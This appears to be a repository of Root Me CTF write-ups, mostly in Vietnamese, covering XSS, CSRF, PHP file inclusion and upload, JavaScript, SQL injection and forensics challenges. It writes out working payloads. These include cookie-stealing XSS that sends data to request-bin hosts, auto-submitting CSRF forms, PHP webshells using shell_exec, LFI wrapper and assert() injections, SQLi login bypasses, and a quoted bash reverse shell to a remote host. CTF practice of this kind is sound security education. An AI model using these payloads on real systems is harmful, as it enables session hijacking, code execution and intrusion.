Root Me Solutions & Write-ups
This repository offers write-ups and solutions for Root Me CTF challenges, aimed at educational and ethical hacking practice. It provides step-by-step guides for various web security, application security, and digital forensics challenges.
Please read the Disclaimer before "dive" into the challenges.
Categories
This repository is organized into several categories, each focusing on different aspects of cybersecurity challenges:
| Category | Description |
|---|---|
| Cross-Site Scripting | XSS attack techniques & solutions |
| CSRF | Cross-Site Request Forgery |
| PHP Vulnerabilities | File inclusion, upload, etc. |
| SQL Injection | SQLi types and bypasses |
| Steganography | Hidden data in files/images |
| Forensics | Digital forensics challenges |
This is just my solution approach and it may not be correct at the time you attempt the challenge.
🚩Flags are redacted for compliance. Guides are detailed for self-learning and education purpose only.
Contributors
Cross-Site Scripting (XSS) Challenges
This section contains write-ups for Root Me XSS challenges. Each solution demonstrates exploitation techniques and provides step-by-step guidance.
| Challenge Name | Write-up Link |
|---|---|
| XSS - Reflected | Read more |
| XSS - Stored 1 | Read more |
| XSS - Stored 2 | Read more |
| XSS DOM Based - Introduction | Read more |
| XSS DOM Based - Eval | Read more |
| XSS DOM Based - AngularJS | Read more |
💡 For each challenge, see the respective folder for screenshots and payloads.
XSS DOM Based - Eval
Bài này cần ta thực hiện chèn XSS vào một input tính toán và bị filter bởi regex: /^\d+\[\\+|\\-|\\\*|\\/\]\d+/

Tuy vậy, sau khi fuzz thì thấy eval() cho phép thực thi phép toán 1+1asd:

Như vậy, hướng đi của ta là chèn vào ở đây. Ta có script của server:
<script>
var result = eval(1+1asd);
document.getElementById('state').innerText = '1+1asd = ' + result;
</script>
Mọi thứ đều bị filter khi cố chèn script vào đây. Đến đây, sau khi mò về Javascript thì mọi thứ có thể giải quyết với template literals (Template literals (Template strings) - JavaScript | MDN (mozilla.org)). Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có):
Thử chèn payload:
1+1\`${alert\`\`}\`

Và như vậy, ta có thể đính kèm DOM Based vào đây:
Payload:
1+1\`${document.location="https://eol9dtzbk9673pb.m.pipedream.net?c="+document.cookie}\`
Sau 10 giây, ta nhận được HTTP request. Giờ thì chuyển qua tab Contact và send cho admin. Ta có payload như sau: http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1`${document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie}`

HTTP Request nhận được sau một khoảng thời gian:

Done:

- Flag: "****************************"
XSS Reflected
Kiểm tra source website ta thấy web bị comment 1 thẻ <> dẫn đến ?p=security:

Request đến ?p=security, website hiển thị trang web lỗi và có một hyperlink thẻ <a> hiển thị nội dung security:

Thử nhập ?p=<giá trị khác>, page sẽ báo lỗi và hiển thị nội dung <giá trị khác> trong thẻ <a>. Như vậy, lợi dụng thẻ <a> này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.
Thực hiện request với payload, sau đó ta trigger event onmouseover và di chuyển chuột qua thẻ <a> để chuyển hướng website:

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:


Qua RequestBin và nhận flag:

- Flag: "****************************"
XSS – Stored 1
Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

Kiểm tra source thì thấy đây là một form với phương thức “POST”. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input ‘Message’:


Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với https://requestbin.in:

Như vậy, ta có một requestbin tại https://eojx5xx99skfihj.m.pipedream.net:
Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:
Payload:
<script></script>document.write("<img src='https://eojx5xx99skfihj.m.pipedream.net/"+document.cookie+"'></img>");</script>


Kiểm tra request bin, ta nhận được giá trị ADMIN_COOKIE.

- Flag: "****************************"
XSS – Stored 2
Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là Status: invite ở mỗi post.

Check cookie của website thì thấy nó được handle dựa trên cookie này:

Bỏ vào repeater và check thử thì thấy nó work:

Ở đây, class “nh4ttruong” sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:
Payload: hehe"><script>alert(1)</script>


Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:
Payload: "><script>document.write("<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/>%22))</script>
Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;” kết thúc bằng “ ”, do đó, rất có thể nó không link được đến cookie của admin

Để giải quyết điều này, ta thử sử dụng hàm REPLACE để xóa bỏ “ ” và chèn vào ký tự “&” để link các cookie với nhau:
Payload: ">

Có ADMIN_COOKIE, ta thay đổi vào cookie và get pass:


- Flag: "****************************"
XSS DOM Based - Angular
Thử submit giá vị vào input, ta xem được script mà website handle:

Mất khá nhiều thời gian để tránh filter và hiểu code. Có vẻ không thể attack bằng cách “hiểu” code được. Đề bài có tên là AngularJS, tra cứu cheatsheet XSS Angular, ta có thể tìm được payload: $on.constructor('alert(1)')()
Để khiến JS thực thi command, ta chèn {{ }} để triển khai expression:
{{$on.constructor('alert(1)')()}}
Tuy vậy, lúc chèn payload, website trả về:

Thử thay ' " thì đã chèn thành công script:

Chỉnh sửa payload để thực thi DOM Based XSS attack. Ta sử dụng \" để thoát chuỗi "":
Payload: {{$on.constructor("document.location=\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\"+document.cookie")()}}

Payload đã chạy được. Giờ thì gửi payload đến admin qua Contact tab:

HTTP Request nhận về:


- Flag: "****************************"
XSS DOM Based - Introduction
Sau khi thử submit, thì ta có thể xem được script của website:

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload ‘;alert(1)// thì thấy thành công:

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ https://requestbin.in): ';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

- Flag: "****************************"
CSRF Challenges
Write-ups for Root Me CSRF (Cross-Site Request Forgery) challenges. Each guide explains the vulnerability and exploitation steps.
💡 Explore each folder for detailed explanations and screenshots.
CSRF - 0 protection
Tạo tài khoản và login vào website:

Ở tab Profile, khi ta thực hiện submit thử thì nhận được message:

Ở tab Contact, ta có thể thấy form với method=“post”, submit thử thì ta nhận được message:

Qua tab Private, ta thấy message:

Từ đó, ta có thể đoán ra rằng, nội dung ở tab Contact sẽ được post lên và được admin kiểm duyệt Admin có thể click vào message của ta Có thể tấn công CSRF.
Để xem được tab Private, ta cần phải xác thực được Profile và từ đó ta có thể đoán được ý đồ của việc disable của nút Status là có lý do của nó. Tuy vậy, chỉ có admin mới có thể xác thực account. Kết hợp với suy luận ở trên, ta có thể thực hiện CSRF giả mạo gửi content đến cho admin và khiến script chạy để admin submit form cho ta.
Qua tab Profile, inspect element và thực hiện giả mạo một form tương tự form ở tab Profile. Sau đó, chèn thêm script để admin có thể submit form:
<form id="clickme" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data"></form>
<input type="text" name="username" value="19522445">
<input type="checkbox" name="status" checked>
</form>
<script>document.getElementById("clickme").submit();</script>

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

- Flag: "****************************"
CSRF – token bypass
Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.
<form id="clickme" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="19522445">
<input type="checkbox" name="status" checked>
<input id="token" type="hidden" name="token" value=""/>
<button type="submit">Submit</button>
</form>
<script>
var req = new XMLHttpRequest();
req.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
req.send();
var token = req.responseText.match(/\[abcdef0123456789\]{32}/);
document.getElementById("token").value = token;
document.getElementById("clickme").submit();
</script>

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

- Flag: "****************************"
Forensics Challenges
Write-ups for Root Me Forensics challenges, focusing on digital investigation, data recovery, and analysis techniques.
💡 Each folder contains step-by-step solutions, screenshots, and tools used.
Docker layers
Sử dụng container-diff để analyze history của file .tar
container-diff analyze -t history ch29.tar
-----History-----
Analysis for ch29.tar:
-/bin/sh -c #(nop) ADD file:d2abf27fe2e8b0b5f4da68c018560c73e11c53098329246e3e6fe176698ef941 in /
-/bin/sh -c #(nop) CMD ["bash"]
-/bin/sh -c apt update -y
-/bin/sh -c apt install -y curl openssl
-/bin/sh -c #(nop) COPY file:2ca89eb39686ffcc3d2d87bbc9293559252cff471f80c2ed5d024b214f9a6fa3 in /
-/bin/sh -c echo -n $(curl -s https://pastebin.com/raw/P9Nkw866) | openssl enc -aes-256-cbc -iter 10 -pass pass:$(cat /pass.txt) -out flag.enc
-/bin/sh -c rm /pass.tx
Ta thấy, tác giả sử dụng encrypt file flag lấy từ https://pastebin.com/raw/P9Nkw866 (not found) và encrypt với password được mount tại /pass.txt từ một file local.
Giờ thì untar file ch29.tar ra và tìm kiếm flag:
1bbd61a572ad5f5e2ac0f073465d10dc1c94a71359b0adfd2c105be4c1cb2507
316bbb8c58be42c73eefeb8fc0fdc6abb99bf3d5686dd5145fc7bb2f32790229.tar
3309d6da2bd696689a815f55f18db3f173bc9b9a180e5616faf4927436cf199d.tar
4942a1abcbfa1c325b1d7ed93d3cf6020f555be706672308a4a4a6b6d631d2e7.tar
5bcc45940862d5b93517a60629b05c844df751c9187a293d982047f01615cb30
743c70a5f809c27d5c396f7ece611bc2d7c85186f9fdeb68f70986ec6e4d165f.tar
82ba49da0bd5d767f35d4ae9507d6c4552f74e10f29777a2a27c97778962476d
8d364403e7bf70d7f57e807803892edf7304760352a397983ecccb3e76ca39fa.tar
8f0d75885373613641edc42db2a0007684a0e5de14c6f854e365c61f292f3b4d
b324f85f8104bfebd1ed873e90437c0235d7a43f025a047d5695fe461da717c6.json
b58c5e8ccaba8886661ddd3b315989f5cf7839ea06bbe36547c6f49993b0d0aa.tar
ca7f60c6e2a66972abcc3147da47397d1c2edb80bddf0db8ef94770ed28c5e16
db04fe239ab708e4ab56ea0e5c1047449b7ea9e04df9db5b1b95d00c6980ff3f
flag.enc
manifest.json
openssl
repositories
Unzip tiếp các file .tar còn lại sẽ xuất hiện file flag.enc và pass.txt:
cat pass.txt
d4428185a6202a1c5806d7cf4a0bb738a05c03573316fe18ba4eb5a21a1bc8ea
cat flag.enc
Salted__s`;?�d�q���/�!����$@�����8�=NK:�E�n%
���.N��02)�d
Sử dụng openssl để descrypt flag.enc:
openssl enc -aes-256-cbc -iter 10 -d -in flag.enc -out flag.txt
Và nhận flag: cat flag.txt *******************
Open My Vault
Sau khi ssh vào server, ta kiểm tra history của user:
1 id
2 cat /etc/passwd
3 pwd
4 cd /home/m4st3r/
5 ping 128.66.0.0
6 cat /etc/shadow
7 l
8 ll
9 cd ansible/
10 ls -lah
11 tree .
12 cat inventory.cfg
13 cat playbook.yml
14 cat roles/zip/tasks/main.yml
15 mkdir roles/other
16 mkdir roles/other/tasks
17 ansible-vault -h
18 ansible-vault create roles/other/tasks/main.yml
19 vim playbook.yml
20 ansible-playbook -h
21 ansible-playbook -i inventory.cfg --vault-password-file=/tmp/.secure playbook.yml
22 rm /tmp/.secure
Ở dòng 21, m4st3r đã chạy một playbook đã mã hóa với password nằm ở /tmp/.secure và sau đó anh ấy đã xóa nó với rm /tmp/.secure
Thử chạy lại dòng 21, kết quả trả về là không thể vì thiếu ssh-key
Giờ thì check thử /var/log ta có:
ll /var/log/
total 712
drwxr-xr-x 1 root root 4096 Dec 4 11:53 ./
drwxr-xr-x 1 root root 4096 Dec 4 11:53 ../
-rw-r--r-- 1 root root 13764 Dec 4 11:56 alternatives.log
drwxr-xr-x 1 root adm 4096 Dec 4 12:05 apache2/
drwxr-xr-x 1 root root 4096 Dec 4 11:53 apt/
-rw-r--r-- 1 root root 58592 Sep 22 16:47 bootstrap.log
-rw-rw---- 1 root utmp 0 Sep 22 16:47 btmp
-rw-r--r-- 1 root root 284658 Dec 4 11:56 dpkg.log
-rw-r--r-- 1 root root 32032 Dec 4 12:05 faillog
drwxr-sr-x 2 root systemd-journal 4096 Dec 4 11:53 journal/
-rw-rw-r-- 1 root utmp 292292 Dec 11 08:17 lastlog
drwx------ 2 root root 4096 Dec 4 11:53 private/
-rw-rw-r-- 1 root utmp 384 Dec 11 08:17 wtmp
Okay, giờ thì check log theo thứ tự ưu tiên là syslog -> weblog. Đúng là anh ấy đã quên xóa log. Ở /var/log/apache2/access.log ta tìm được thứ này:
203.0.113.0 - - [03/Sep/2022:13:34:31 +0200] "GET /pdf.php?name=a.pdf;echo%20%22C4tXk9ctpG9QEMeL%22%20%3E%20/tmp/.secure HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:34:57 +0200] "GET /pdf.php?name=a.pdf;bash%20-i%20%3E&%20/dev/tcp/128.66.0.0/4444%200%3E&1 HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
Thứ này giống như website đã bị chèn shell. Decode với URL decode ta được:
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
bash -i >& /dev/tcp/128.66.0.0/4444 0>&1
Vậy là ta đã tìm được .secure password của vault. Giờ thì decrypt nó :
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
ansible-vault decrypt --vault-pass-file /tmp/.secure roles/other/tasks/main.yml
Decryption successful
...
cat roles/other/tasks/main.yml
- name: "hack the planet"
ansible.builtin.shell: "bash -i >& /dev/tcp/128.66.0.0/4444 0>&1"
- name: "If someone search for a Flag ^^"
ansible.builtin.shell: "echo '************' > /flag"
^^
Javascript Challenges
Root Me challenges focused on Javascript logic, obfuscation, and source code analysis.
| Challenge Name | Write-up Link |
|---|---|
| HTML - disabled buttons | Read more |
| Javascript - Authentication | Read more |
| Javascript - Authentication 2 | Read more |
| Javascript - Native code | Read more |
| Javascript - Obfuscation 1 | Read more |
| Javascript - Obfuscation 2 | Read more |
| Javascript - Obfuscation 3 | Read more |
| Javascript - Source | Read more |
💡 See each folder for code, explanations, and screenshots.
Javascript - Authentication
Kiểm tra website, ta thấy ở phần Elements không có gì khác biệt:

Chuyển qua phần Sources, ta có thể thấy được file login.js với nội dung:

Có nghĩa, khi nhập đúng pseudo=="4dm1n" && password=="sh.org" thì sẽ nhận được alert thành công (cũng không có gì khác biệt). Do đó, ta thử nhập password (flag) với giá trị là sh.org thì thấy đã tìm được đúng password.
- Flag: "****************************"
Javascript - Authentication 2
Vào website, ta thấy có một nút login và một thẻ <a> để đóng của sổ:
Click vào login button, website sẽ hiện 2 ô alert lần lượt là username và password. Kiểm tra Sources website, ta thấy có file login.js:
Ta thấy, script so sánh username == TheUsername && password == ThePassword. Trong khi đó TheUsername và ThePassword lần lượt là TheSplit[0] và TheSplit[1]. Từ đó với var TheLists = ["GOD:HIDDEN"], ta có thể suy ra:
Username: GOD
Password: HIDDEN
- Flag: "****************************"
Javascript - Native code
Kiểm tra Sources website, ta thấy có file ch16.html:
Sử dụng công cụ Javascript Unobfuscator để decrypt đoạn mã trên, ta được:
Từ đó, dễ dàng suy đoán được, password = "****************************"
- Flag: "****************************"
Javascript - Obfuscation 2
Kiểm tra Sources website, ta thấy có file ch12.html:
Ta thấy, pass lúc này được gán bằng một dòng lệnh Javascript. Lúc này, ta sẽ thử qua Console và chạy các lệnh này:
Lúc này, có vẻ như ta đã tìm được password.
- Flag: "****************************"
Javascript - Obfuscation 1
Vào website, website yêu cầu nhập password:
Kiểm tra Sources website, ta thấy có file ch4.html:
Ta thấy: pass ='%63%70%61%73%62%69%65%6e%64%75%72%70%61%73%73%77%6f%72%64'
Đây là chuỗi hex, ta convert sang ASCII Text và có được password:
- Flag: "****************************"
Javascript - Obfuscation 3
Kiểm tra Sources website, ta thấy có file ch13.html:
Decode chuỗi ở biến pass, ta nhận được kết quả FAUX PASSWORD HAHA. Đọc lại code, ta thấy, ở dòng 21, script có sử dụng hàm dechiffre() để decode một đoạn chuỗi giá trị loại hex. Ta sử dụng công cụ ASCII Code để decrypt nó và được:
Ta nhận được chuỗi “55,56,54,79,115,69,114,116,107,49,50”. Chuỗi này có format giống chuỗi ở biến pass, ta decode nó một lần nữa với công cụ ASCII Code và được:
Từ đó, ta suy đoán được, password = '****************'
- Flag: "****************************"
Javascript - Source
Vào website, ta thấy có một ô alert hiện ra bắt ta nhập mật khẩu:
Kiểm tra Sources của website, ta thấy một file (index):
Đến đây, ta có thể thấy, body sẽ sử dụng event onload để chạy hàm login(), hàm login() sẽ so sánh password với chuỗi "123456azerty", do đó, ta sẽ sử dụng chuỗi này để nhập vào ô alert ban đầu cũng như vào password của challenge.
- Flag: "****************************"
PHP Challenges
Write-ups for Root Me PHP security challenges. Each guide explains the vulnerability, exploitation steps, and key takeaways for educational purposes.
| Challenge Name | Write-up Link |
|---|---|
| Directory Traversal | Read more |
| File upload - Double extensions | Read more |
| File upload - MIME type | Read more |
| HTTP - Directory indexing | Read more |
| Local File Inclusion | Read more |
| Local File Inclusion - Double Encoding | Read more |
| Local File Inclusion - Wrappers | Read more |
| PHP - assert() | Read more |
| PHP - Filters | Read more |
| PHP - register global | Read more |
| Remote File Inclusion | Read more |
💡 Explore each folder for detailed explanations and screenshots.
Directory Traversal
Thử tìm các hình ảnh ở các tab, không phát hiện điều gì khác biệt. Chú ý đến URL http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=emotes có galerie=[value]. Ta thử xóa đi value để website trả về dạng ‘index’:
Lúc này, website trả về một alt=“86hwnX2r”. Chọn “Open image in new window” thì nhận được 403 Forbidden:
Có lẽ galerie lúc này phải là null hoặc bằng value nào đó. Ta back về ch15.php source web và add vào source link của ảnh đó http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r ta chuyển đến trang khác:
Ảnh password đã xuất hiện, truy cập source password và nhận password https://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt
- Flag: "****************************"
File upload – Double extensions
Đầu tiên, ta kiểm tra thử xem password của admin sẽ nằm ở đâu. Thử tìm kiếm tại .passwd file thì nhận được lỗi 403 Forbidden. Có file này nhưng bị giới hạn access:
Tiếp theo, ta sẽ mở cổng upload của server, ta có thể upload các file image (jpeg/png/gif):
Như vậy, để đọc được .passwd, ta cần phải đi ngược folder 3 lần Vị trí .passwd nằm tại ../../../.passwd
Để đọc được .passwd, ta thử sử dụng cổng này để upload file .php lên server và buộc server sử dụng shell_exec() để thực thi shell:
<?php
$output = shell_exec('cat ../../../.passwd');
echo "<pre>$output</pre>";
?>
Đề bài đã gợi ý cho ta sử dụng Double Extensions, do đó, thử rename file .php --> .php.jpg và upload:
Upload thành công, truy cập link và nhận password:
- Flag: "****************************"
File upload - MIME type
Đề yêu cầu ta tìm .passwd. Thử check với .passwd tại /ch21/.passwd thì nhận được 404 Forbidden:
Website có cung cấp một cổng upload và challenge có đề cập đến MIME type. ổng này sau khi nhận file của ta thì lưu trữ tại ./[name]. Bây giờ ta cần chèn payload vào để push lên server:
URL sau khi upload: http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/40ce7d3f3fe27d0d9c1970598b6d09a8//nh4ttruong.jpg
{kind=link}
Lúc đầu, ta đã biết .passwd nằm tại …/ch21/.passwd. Do đó, ta cần đi ngược folder 3 lần để đọc được.
Gắn shell_exec() vào file nh4ttruong123.php.jpg:
<?php
$output = shell_exec('cat ../../../.passwd');
echo "<pre></pre>$output</pre>";
?>
``
Bởi vì server chỉ cho ta upload các file image (jpeg/png/gif), do đó, ta cần sử dụng BurpSuite để modify request convert `.jpg` sang `.php`:

Mod thành công:

Code đã chạy, ta get được password:


- Flag: "****************************"
HTTP - Directory indexing
Theo gợi ý từ đề bài CTRL+U, ta view-source thì nhận được dòng comment:
Truy cập đến admin.pass.html thấy được message rick roll:
Back lại, ta tìm trong folder admin xem có gì:
Mò một lúc thì ta thấy được password nằm tại admin/backup/admin.txt (http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt)
- Flag: "****************************"
Local File Inclusion
Website có rất nhiều tab và gây confuse khi làm:

Câu query URL có dạng challenge01.root-me.org/web-serveur/ch16/?files=sysadm&f=index.html với files sẽ chỉ định folder và f sẽ chỉ định tệp hoặc folder con mà ta chọn:


Chuyển qua mò tab Admin thì website bắt login. Biết gì đâu mà login :v. Tắt promt login thì ta nhận được dòng text:

Như vậy, website sử dụng backend là PHP. Thử mò file source code của nó dựa theo query ở trên:

Lỗi trả về là file_get_contents() không tìm được filename. Sau khi thử fuzz một lúc thì phát hiện ra website không block ‘../’. Đã đến lúc ta dùng Path Traversal.
Thử với files=../:

Lúc này, ta thấy được các thư mục cha chứa thư mục files, trong đó, có folder admin. Đặc biệt, website có một file là index.php giống như ở homepage của website. Vậy hướng của ta là xem được các file có trong folder admin (như index.php). Thử trỏ files=../admin và &f=index.php thì ta đã truy cập thành công index.php:

Dò source code ta thấy được 2 dòng code rất giá trị:

Vậy là đã tìm được account của admin:
- Username: admin
- Password: OpbNJ60xYpvAQU8

- Flag: "****************************"
Local File Inclusion – Double Encoding
Fuzz với Path Traversal, ta thấy web server block hoặc filter ‘../’:
Tên challenge là LFI – Double Encoding URL Double Encoding. Ta convert ../ --> %252E%252E%252F () %252E = . ; %252F = /)
Đưa vào ?page=[value] ta được:
Đến đây, sau khi append bất kỳ text nào thì server sẽ concat text.inc.php:
Dạo quanh index.html và homepage thì không phát hiện bất kỳ điều gì đặc biệt. Tương tự các bài LFI khác, ta cần get source để xem tác giả đặt gì trong web. Khi xem về cách get source php, ta có payload get như sau:
?page=php://filter/convert.base64-encode/resource=[source_file]
Giờ thì đưa vào payload ta để get source ở home.inc.php:
?page=php://filter/convert.base64-encode/resource=home
Double encoding: ?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome
Bỏ vào base64 decode:
View source không tìm được gì đặc biệt. Tuy vậy, website đã sử dụng thư viện từ conf.inc.php. Từ đó, tiến hành xem thử conf.inc.php:
?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf
Flag xuất hiện trong conf.inc.php:
- Flag: "****************************"
Local File Inclusion - Wrappers
Khi thử upload without source, ta nhận được message:
"Sorry, only JPG images will be accepted. Please use a different service if you do not intend to upload pictures”
Đề bài gợi ý là Wrapper, ta chú ý đến PHP Wrapper. Dó đó thử dụng php://filter để get source index.php nhưng không khả thi:
Sử dụng data wrapper thì bị nhận diện attack còn sử dụng encode base64 thì nhận được lỗi “page name too long”:
Đến đây, chắc có lẽ ta cần sử dụng cổng upload này để upload command lên server, sau đó, dùng wrapper để chạy file. Ta sử dụng đến wrapper zip:// để đọc file từ zip vì có lẽ server chặn các cổng data mất rồi:
Code getsource.php:
<pre><?php show_source('index.php'); ?></pre>;
Ta đặt tên là getsource.php, sau đó zip file lại getsource.zip, rename getsource.jpg , sau đó upload lên server:
Chú ý đến cấu trúc URL: http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=8Gjbt40un
Lúc này, page đang load một filename có id là 8Gjbt40un khác với image name của ta Server đã upload lên /tmp/upload/image_id.jpg. Sử dụng zip wrapper tuy cập đến /tmp/upload/8Gjbt40un.jpg%23getsource, server sẽ tự concat thêm ‘.php’ cho ta để có câu request hoàn chỉnh:
?page=zip://tmp/upload/8Gjbt40un.jpg%23getsource*.php***
Tuy nhiên, ta lại nhận được lỗi tên quá dài. Ta cần rename lại thành t.php t.zip t.jpg, sau đó upload lại:
Payload: ?page=zip://tmp/upload/XoMA4xJDj.jpg%23t.php**
Source không có thông tin gì liên quan đến password cả, giờ thì ta phải thử tìm trong folder chứ index.php vì có thể sẽ có file khác nhưng ta không Path Traversal đc:
Payload: <pre><?php shell_exec('ls -la') ?></pre>;
shell_exec() bị block. Ta thử với:
Payload: <pre><?php system('ls -la') ?></pre>;
system() cũng bị block. Ta thử với exec() nhưng cũng bị block:
Không còn cách nào khác, ta sử dụng scandir() để list all file trong director:
<pre>
<?php
$path = './';
$files = scandir($path);
foreach($files as $file) {
echo "<a href='$file'>$file</a>";
}
?>
</pre>;
Xong, nó list all ra được và ta có thể thấy được flag:
Đọc file flag với:
<pre><?php show\_source('flag-mipkBswUppqwXlq9ZydO.php'); ?></pre>;
- Flag: "****************************"
PHP - assert()
Thử fuzz với payload: http://challenge01.root-me.org/web-serveur/ch47/?page=../
Website sử dụng assert("strpos('$file', '..') === false") or die("Detected hacking attempt!"); để check xem yêu cầu tìm xem có file hay không, nếu lỗi thì hiện message. Như vậy, ta cần injecton hàm assert này. Tra cheat sheet ta có thể nhét BOOLEAN kèm theo để buộc thực thi với die() và để hiển thị source bằng hàm show_source(): and die(show_source('.passwd')) or '
Lúc này payload có dạng:
assert("strpos(' ' and die(show\_source('.passwd')) or ' ', '..') === false") or die("Detected hacking attempt!");
Payload: http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27
- Flag: "****************************"
PHP - Filters
Test payload trực tiếp đến /etc/passwd thì nhận được lỗi ràng buộc với /etc/passwd.
Thật ra URL không filter keyword của mình nhưng mà không thể nào get nó theo cách này được. Chuyển qua dùng wrapper php với base64 để get source index.php:
Get source ch12.php:
Vậy là website có config.php, get source config.php:
Username: admin
Password: DAPt9D2mky0APAF
- Flag: "****************************"
PHP – register globals
Theo document, ta có các global variable thường gặp là: _REQUEST, _SESSION, _SERVER, _ENV, _FILES. Kiểm tra cookie của website, ta có thể thấy được PHP Session ID. Từ đó, ta có thể đoán được website có thể sử dụng _SESSION để lưu trữ mảng các session (PHP: $_SESSION - Manual).
Thử bằng payload với /index.php?_SESSION[logged]=1, ta tìm được password:
Password: **NoTQYipcRKkgrqG**
- Flag: "****************************"
Remote File Inclusion
Website có thiết lập parameter ?lang để đọc source từ lang.php:
Fuzz vào URL thì ta biết được, server sẽ tự động concat thêm _lang.php vào cuối keyword ta gán vào ?lang:
Challenge này thử thách về RFI, ta thử chèn một website bất kỳ vào ?lang:
Như ban nãy, server tự concat thêm _lang.php, ta sử dụng ? để bypass phần concat với payload: http://challenge01.root-me.org/web-serveur/ch13/?lang=https://github.com/nh4ttruong?
Bypass thành công, giờ thì ta sử dụng server để RFI qua challenge này. Set-up một file tên là ntruong.txt với content là payload PHP:
Sử dụng ngrok server để public IP Address:
URL để RFI: https://f512-14-241-170-199.ap.ngrok.io/ntruong.txt
Giờ thì gắn vào ?lang ta được:
Password: R3m0t3_iS_r3aL1y_********************
- Flag: "****************************"
SQL Injection Challenges
Welcome to the SQL Injection category of Root Me write-ups! This section provides detailed, educational solutions to a variety of SQL Injection (SQLi) challenges from the Root Me platform. Each write-up is designed to help you understand different SQLi techniques, bypasses, and real-world exploitation scenarios.
📝 List of Challenges
| Challenge Name | Write-up Link |
|---|---|
| SQL injection - Authentication GBK | Read more |
| SQL injection - Authentication | Read more |
| SQL injection - error based | Read more |
| SQL injection - File reading | Read more |
| SQL injection - Insert | Read more |
| SQL injection - Routed | Read more |
| SQL injection - Time-based | Read more |
| SQL injection numeric | Read more |
| SQL injection string | Read more |
| SQL Truncation | Read more |
| SQL injection - Filter bypass | Read more |
📢 Feedback
Feel free to open an issue or submit a pull request for suggestions or improvements!
SQL injection - Authentication
Thử với payload:
Username: `1’--`
Password: `1`
Như vậy, ta không thể inject được vào input. Thử inject vào password:
Username: `1`
Password: `1’ or 1=1--`
Ta có thể đoán được, có vẻ như cần phải có username chính xác mới có thể inject được ở username, thử kiểm chứng bằng cách inject ở username với payload user1—.
Như vậy, để trộm được password của admin, ta cần phải biết username của admin để thực hiện inject. Và nhờ informations hiển thị của user1, ta có thể đoán username của admin có thể là admin hoặc administrator.
Thử với payload:
- Username: `admin’--`
- Password: `1`
Inspect và tìm được password của admin:
- Flag: "****************************"
SQL injection - Authentication - GBK
Thử với các payload như bài SQLi Authenticaiton thì mọi thứ đã không qua được:
Thử đổi payload sang login[]=admin&password[]=1, ta nhận được thông báo lỗi sau:
Từ đó, ta có thể đoán được password sẽ dùng md5 đã hash và username sử dụng addslashes() để encoding input. Hàm PHP: addslashes - Manual sẽ chèn thêm \ trước các ký tự đóng ngoặc đơn để tránh SQL. Từ đó, ta chỉ cần bypass username qua addslashes là có thể SQLi thành công.
